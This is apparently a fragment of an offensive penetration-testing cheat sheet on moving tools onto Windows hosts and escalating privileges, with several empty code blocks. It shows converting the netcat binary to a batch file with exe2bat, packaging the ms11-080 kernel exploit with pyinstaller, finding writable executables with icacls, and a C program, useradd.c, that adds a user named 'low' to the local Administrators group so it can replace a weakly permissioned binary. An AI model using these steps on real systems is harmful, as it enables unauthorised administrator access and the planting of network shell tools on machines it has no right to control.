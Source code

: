 ```bash

```

### Download using PowerShell

```bash

```

### Download using debug.exe

copy code in hex and reassemble using debug.exe. 64k byte limit.

**convert pe file to bat file** 

```bash
wine exe2bat.exe nc.exe nc.txt
```

# Privilege Escalation

# By Exploit

* Check for vulnerable kernel/distribution version.

## By Python Exploit

```bash
python pyinstaller.py --onefile ms11-080.py
```



## By wrong permissions

### On windows

check for Everyone permissions

```bash
icacls *.exe
```

useradd.c:

```c
#include <stdlib.h>     /* system, NULL, EXIT_FAILURE */
int main ()
{
	int i;
	i=system ("net localgroup administrators low /add");
	return 0;
}
```
